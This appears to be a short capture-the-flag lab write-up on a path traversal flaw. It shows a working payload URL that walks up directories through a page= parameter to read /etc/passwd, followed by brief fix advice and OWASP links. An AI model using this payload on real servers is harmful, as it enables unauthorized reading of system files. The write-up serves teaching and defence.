 # PATH_TRAVERSAL

### Breach Exploit
In some url we can see a page= variable in GET request.
If we try to access the root directory we can find the flag in etc/passwd
```http://x.x.x.x/index.php?page=../../../../../../../etc/passwd```

### Fix Breach
Avoid using passing user-supplies input in file system calls
If forced to use user input for file operations, normalize the input before using, such as normalize().

### Documentation
```
https://wiki.owasp.org/index.php/Path_Traversal
https://owasp.org/www-community/attacks/Path_Traversal
```